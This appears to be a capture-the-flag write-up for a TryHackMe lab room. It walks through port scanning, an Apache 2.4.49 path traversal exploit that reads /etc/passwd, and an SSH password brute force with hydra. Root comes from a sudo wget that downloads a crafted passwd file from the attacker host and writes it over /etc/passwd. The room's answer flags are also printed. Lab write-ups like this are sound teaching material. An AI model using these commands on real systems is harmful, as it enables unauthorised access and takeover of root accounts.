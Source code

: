

# THM-basiclevelctf-Writeup
https://tryhackme.com/room/basiclevelctf

The first step is to find out which ports are open.

```
nmap -sCV -vv 192.168.1.19
```
![NMAP Resulst](images/nmap.png "NMAP")

From the output of nmap now we know that there are 2 open ports,
that is: port 22 that is running SSH, Port 80 running a http webserver.

1. Q: What are the names of the services on the open ports?
A: ssh,http

# Accessing the Webserver
We access port 80 and this is the result we get.

![Webserver](images/index.png)



# Finding directory

To find other pages or directories that may exist within the server
we can use any directory brute-force tools such as dirbuster,
gobuster, dirsearch etc. But In my case I want to use dirb.

```
dirb http://192.168.1.19/
```
![dirb](images/dirb.png)

# Checking robots.txt
After checking **robots.txt**, we realized that there is a file named **secret.lst** thanks to robots.txt and it is most likely a wordlist.

![robots.txt](images/robots.png)

![secret.lst](images/secretlst.png)

# Check exploit for open port 22 or 80
Now we only have a wordlist and the ssh service is open. But we did not investigate whether the service running on port 80 has any vulnerability, let's start researching.

![exploit](images/exploit.png)

It seems that the Apache HTTP Server 2.4.49 service has a vulnerability. Let's download the code and test it on our target machine. 
Reference: https://www.exploit-db.com/exploits/50406
```
chmod +x PoC.sh
echo "http://192.168.1.19" > targets.txt
./PoC.sh targets.txt /etc/passwd
```
![readpasswd](images/readpasswd.png)
Yes, we detected a "Path Traversal" vulnerability on our target machine.
And in this way, we have detected the user named **h1ddenuser** by reading the /etc/passwd file.

# SSH Bruteforce
I will use the **hydra** tool to make a bruteforce attack, you can use any tool you want.
```
hydra -l h1ddenuser -P /home/user00/Downloads/secret.lst -t 64 ssh://192.168.1.19
```
![SSH Bruteforce Attack](images/hydra.png)
We found the password of the user named **h1ddenuser** with a brute-force attack. Let's log in!
```
ssh h1ddenuser@192.168.1.19
```
![We are in!](images/wearein.png)

# Let's find out what we have
```
cd ~
ls -la
```
![User.txt](images/usertxt.png)

2. Q:  user.txt 
**A:** ``THM{se3ms_l1ke_ez_f0r_y0u!}``

# Privilege Escalation
Let's try **sudo su**
```
sudo su
```
![sudo su](images/sudosu.png)

Aughh failed!
But it's okay. Let's try **sudo -l**

```
sudo -l
```
![wget](images/wget.png)

We can use the -O parameter of the **wget** tool to become root. Since it will work with sudo, the output file will also be written by root. This means that we can manipulate the /etc/passwd file as we wish.
But first we need read /etc/passwd file again for copy everything. 
After that create password with **openssl** as we will overwrite /etc/passwd.
```
openssl passwd -1 your_password
```
Output: `$1$IVk5HMy3$PwcEPPt/eMFXwt8HX75yh/`
Let's manipulate the /etc/passwd file.
On our own computer, I create a file named **etc-passwd** on the desktop and make its content like this.
```
root:$1$IVk5HMy3$PwcEPPt/eMFXwt8HX75yh/:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
h1ddenuser:x:1000:1000:h1ddenuser:/home/h1ddenuser:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
```
Now let's start apache2.service on **attacker** machine for download named **etc-passwd** file and overwrite **/etc/passwd**.
![Apache2](images/apache2.png)
```
sudo service apache2 start
sudo mv /home/user00/Desktop/etc-passwd /var/www/html/
```
Now we can go back to the target ssh terminal. There's only one thing left to do.
# Get root shell
```
sudo wget http://192.168.1.200/etc-passwd -O /etc/passwd
```
![Overwrite /etc/passwd](images/overwrite.png)
```
su root
```
# Pwned
![System Pwned!](images/root.png)

3. Q:  root.txt
**A:** ``THM{w3ll_d0n3_br0_so_3z!}``
